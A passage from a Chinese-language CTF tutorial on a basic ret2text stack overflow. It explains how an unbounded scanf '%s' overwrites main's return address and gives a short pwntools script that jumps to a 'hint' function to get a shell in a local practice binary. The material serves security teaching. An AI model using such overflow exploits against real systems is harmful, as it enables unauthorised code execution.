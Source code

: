 而scanf函数的"%s"格式化控制符没有指定最多输入字节数, 也就是说可以无限制输入字节, 那么就会造成栈溢出, 溢出的一个后果就是可以覆盖main函数的函数返回地址, 可以将这个返回地址填充为任意可执行片段去执行, 这样三大步骤的第一个步骤溢出点就找到了, 注意需要计算变量buf到函数返回地址之间有多少个无关字节, 需要用随意字符去填充
最后要做的就是控制程序的执行流, 既然我们可以覆盖函数返回地址为任意可执行片段地址跳转去执行, 那么可以直接填充为hint函数地址跳转过去拿到shell

![7818161093cc9ee4e17a81afd1cc061c](Self-help_Clown.assets/7818161093cc9ee4e17a81afd1cc061c.png)

当main函数执行到ret指令时, 就会返回跳转到hint函数去执行

#### Exploit

```python
from pwn import*

o = process('./ret2text_basic')
 
hint = 0x4005D6
payload = 'a'*0x18 + p64(hint)
o.sendline(payload)

o.interactive()
```

在调用scanf函数下一条指令处设置断点, 看看执行情况

![e2f6c455de1eef94f687d6bf020f4604](Self-help_Clown.assets/e2f6c455de1eef94f687d6bf020f4604.png)
